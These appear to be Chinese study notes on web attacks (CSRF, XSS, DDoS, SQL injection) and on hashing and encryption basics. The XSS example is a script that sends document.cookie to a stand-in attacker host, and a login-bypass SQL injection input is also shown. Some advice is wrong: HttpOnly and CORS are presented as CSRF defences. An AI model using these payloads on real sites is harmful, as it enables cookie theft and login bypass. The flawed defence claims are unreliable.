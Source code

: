 ## 网络攻击

### CSRF攻击

全称是跨站请求伪造（Cross Site Request Forgery）。

`CSRF`是通过伪装来自受信任的用户的请求来利用受信任的网站。攻击者盗用了用户的身份，以用户的名义向第三方网站发起恶意请求，可能会利用用户的身份进行转账等危险操作。

**简介：** 用户A登录了网站B，网站B在用户A的浏览器上存了`cookie`信息，这时候用户A没有登出网站B，转换又去访问网站C，网站C中有一个链接点击后会对网站B发起恶意访问请求。用户A点击后，对网站B发起了请求。如果没有跨域访问限制，这时候网站B便执行了用户A的请求，导致恶意转账等结果。

**解决手段：**

1. 将`cookie`设置为`HttpOnly`，这样就不能通过js去获取`cookie`信息了。

2. 增加 `token`：

   在请求中放入攻击者所不能伪造的信息，并且该信息不存在与`cookie`中。例如在请求中以参数形式加入一个随机生成的`token`，并且在服务端进行`token`校验，如果请求中没有有效的`token`，则拒绝该请求。

   假设请求通过`POST`方式提交，则可以在相应的表单中增加一个隐藏域：`<input type="hidden" name="csrf_token" value="csrf_token_value">`，`token` 的值通过服务端生成，表单提交后`token`的值通过 `POST` 请求与参数一起带到服务端，每次会话可以使用相同的`token`，会话过期 `token` 失效，攻击者无法获取`token`，所以也就无法伪造请求。

3. `cros`跨域资源共享：

   > `cros`配置：
   >
   > 1. 服务器配置可以发起访问的域，以及请求方法，请求头部信息。
   > 2. 对于简单请求，用户在发送请求时，浏览器会自动添加 `Origin` 头部信息。
   > 3. 对于复杂请求，浏览器先发送一次带有 `Origin` 字段的 `OPTION` 请求，检测是否允许跨域访问，然后再发送真实请求。
   > 4. 服务器会判断请求头部的`Origin`信息是否在已配置的 `AllowedOrigin` 中。
   > 5. 服务器响应头部信息中包含配置的 `Access-Control-Allow-Origin` 以及是否允许携带cookie等字段。
   > 6. 浏览器检测到 `Origin` 字段中的值若存在于  `Access-Control-Allow-Origin` 字段中便会将数据显示给用户。
   > 7. 浏览器检测到 `Origin` 字段中的值不存在于  `Access-Control-Allow-Origin` 字段中便会忽略响应，并报错。

   `cors`跨域资源共享可以有效的抵御`csrf`攻击，用户A浏览网站C时发起恶意请求时，由于恶意请求属于非简单请求，浏览器会先发送一次带有 `Origin` 字段的 `OPTION` 请求，检测是否允许跨域访问，这时浏览器响应头部信息的 `Access-Control-Allow-Origin` 字段中没有 `Origin` 字段的值，因此不会发起真正的请求。



### XSS攻击

全称是跨站脚本攻击（Cross Site Scripting）。

**简介：** 攻击者在网页中嵌入恶意脚本程序，当用户打开该网页时，脚本程序便开始在用户的浏览器上执行，盗取用户的 `cookie` 、用户名密码、下载执行病毒木马程序，甚至是获取客户端admin权限。

**原理：** 我现在做了个博客系统，然后有一个用户在博客上发布了一篇文章，内容是`<script>window.open("www.gongji.com?param="+document.cookie)</script>`，如过我没有对它做处理，直接存到数据库里，当别的用户读取文章后，浏览器会执行这段js脚本，然后发起恶意攻击。

**解决手段：** 对用户输入的数据进行过滤和转义。

### DDos攻击

全称是分布式拒绝服务（Distributed Denial of Service）。

**简介：** 是目前最强大、最难以防御的攻击方式之一。攻击者利用很多设备在同一时间对目标进行大量访问请求，耗尽服务器资源，导致服务器无法正常响应。

**解决方案：**

- DDos攻击很难有效防御，可以通过购买更多的带宽

- 使用多台服务器，并部署在不同的数据中心
- 将静态资源部署到CDN上，利用CDN，就近访问，提高访问速度，同时又避免了服务器被攻击
- 开启路由器反ip欺骗

### SQL注入攻击

SQL注入就是把SQL命令伪装成正常的HTTP请求参数，传递到服务端，欺骗服务器执行恶意的SQL命令。

**简介：** 我现在做了个网站，用户登录时，调用的后台接口中有一段代码中SQL语句是这么写的：`"SELECT username FROM user WHERE username = " + username + " AND password = (" + password + ")"`，用户如果输入的用户名是 `xxx`，密码是 `password OR 1 = 1`，那么这条SQL语句将会查询出用户的信息，并且可以绕过检查直接登录成功。

**解决方案：**

- 使用预编译的语句，预编译语句使用参数占位符来替代需要动态传入的参数，这时程序会将用户输入的 `password OR 1 = 1`当做普通字符串来处理，攻击者便无法概念SQL语句的结构。
- 使用`ORM`框架，流行的`ORM`框架都对相应的关键字进行了转义。
- 避免以明文方式存放密码，这样攻击者便无法通过SQL注入攻击获取用户的密码。

## 数字摘要

数字摘要也称为消息摘要，它是一个唯一对应于一个消息的固定长度的值，由一个单向`Hash`函数对消息进行计算而产生。接受者对收到的消息采用相同的`Hash`函数重新计算，将新生成的摘要与原摘对比，如果不相同，则说明消息在传递的过程中改变了。

消息摘要的特点：

1.  长度固定，与消息长度无关。
2.  一般不同消息生成的摘要不同，相同的消息生成的摘要一定相同。
3.  不能重摘要中恢复原消息。

### MD5

`MD5`是数字摘要算法的一种实现，它可以从任意长度的明文字符生成128位的hash值。

MD5算法的过程分为四步：处理原文，设置初始值，循环加工，拼接结果。

1.  先计算出原文比特长度，然后对512求余，如果余数不等于448，就填充原文使得原文对512求余的结果等于448。填充的方法是第一位填充1，其余位填充0，填充完后，信息的长度就是 512 * N + 448。用剩余的位置64位记录原文的真正长度，这样处理后的信息长度就是 512 * (N + 1)。
2.  MD5的哈希结果长度为128位，按每32位分成一组共4组。这4组结果是由4个初始值A、B、C、D经过不断演变得到。
3.  循环加工，每一次循环都会让旧的A、B、C、D产生新的A、B、C、D。假设处理的原文长度是M，主循环次数 = M / 512，每个主循环中包含 512 / 32 * 4 = 64次子循环。所以消息越大，MD5运算越慢。
4.  拼接结果。

### SHA

`SHA`是安全散列算法，它可以从任意长度的明文字符生成160位的hash值。由于生成的摘要信息更长，运算更加复杂，所以比`MD5`运行速度慢，但是也更安全。

### Base64编码

由于计算出的摘要需要转换为字符串，可能会产生一些无法显示或者网络传输的控制字符，所以需要对摘要字符串进行编码。

`Base64`是一种基于64个可打印字符来表示二进制数据的方法，由于 `2 ^ 6 = 64` ，所以每6位字符为1个单元，3个字节刚好对应4个 `Base64` 单元，即3个字节用4个可打印字符表示。

`Base64` 只是一种编码算法，可以通过固定的方法逆向得到编码之前的信息，所以不能作为一种加密算法使用。

## 对称加密算法

即加密和解密使用同一个秘钥的加密算法。

对称加密算法的特点：

-   算法公开
-   计算量小
-   加密速度快
-   加密效率高
-   安全性依赖于秘钥，秘钥一旦泄露就失去了安全性

常见的对策加密算法有：`DES`算法、`3DES`算法、`AES`算法等。

## 非对称加密算法

非对称加密算法需要公钥和私钥配对使用。用公钥加密，只有私钥才能解密；使用私钥加密，只有公钥才能解密。

非对称加密算法的特点：

-   只要保证私钥的安全性就能保证加密算法的安全性
-   只需要传递公钥，大大提高了秘钥传输的安全性
-   由于算法的复杂性，其加解密速度远慢于对称加密算法

非对称加密算法实现机密信息交换的基本过程：

1.  甲生成一对秘钥，并把一把作为公钥，向其他人公开。
2.  乙得到该公钥后使用它对机密信息进行加密后发生给甲。
3.  甲使用私钥对加密后的信息进行解密得到原文。

为了达到时间和安全的平衡，通常利用对称加密算法加密较长的文件，用非对称加密算法传递加密文件的对称加密算法的秘钥。

常见的非对称加密算法：`RSA`算法。